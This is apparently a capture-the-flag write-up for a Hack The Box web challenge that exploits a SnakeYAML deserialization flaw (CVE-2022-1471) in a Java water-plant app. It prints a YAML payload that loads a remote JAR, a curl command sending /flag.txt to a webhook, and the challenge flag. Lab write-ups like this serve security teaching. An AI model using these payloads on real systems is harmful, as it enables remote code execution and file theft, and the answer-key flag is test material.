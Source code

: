 # Watersnake
> As the United Nations of Zenium and the Board of Arodor engage in a fierce competition to establish a colony on Mars using Vitalium. State hackers from UNZ identify an exposed instance of the critical facility water management software, Watersnakev3, in one of Arodor's main water treatment plants. The objective is to gain control over the water supply, and weaken the Arodor's infrastructure.

## About the Challenge
We were given a source code (You can download the source code [here](web_watersnake.zip)). Here is the preview of the website

![preview](images/preview.png)

And also there is another functionality where we can submit our own YAML configuration

![preview_2](images/preview_2.png)

## How to Solve?
If we check the the `Controller.java` code especially a function called `update()`

```java
import org.yaml.snakeyaml.Yaml;
...
...
@PostMapping("/update")
	public String update(@RequestParam(name = "config") String updateConfig) {
       	InputStream is = new ByteArrayInputStream(updateConfig.getBytes());
      
       	Yaml yaml = new Yaml();

	    Map<String, Object> obj = yaml.load(is);

		obj.forEach((key, value) -> System.out.println(key + ":" + value));

		return "Config queued for firmware update";
	}
}
```

You will see this program using `snakeyaml`. And the packages is outdated if we check the version in `pom.xml` file

![version](images/version.png)

snakeyaml is vulenrable to CVE-2022-1471. So, to exploit this website using CVE-2022-1471, we can use this GitHub [repository](https://github.com/artsploit/yaml-payload/)

![payload](images/payload.png)

Don't forget to change the payload into the blow code because we can't use reverse shell payload (idk why). So, in this case i just send the content of `flag.txt` into webhook

```
curl -F password=@/flag.txt webhook.site/xxxxxxx
```

And then input this in the YAML form

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-server/yaml-payload.jar"]
  ]]
]
```

Check the webhook again and you will see a request from the website

![webhook](images/webhook.png)

And then download the `flag` file

![flag](images/flag.png)

```
HTB{r1d3_th3_sn4k3}
```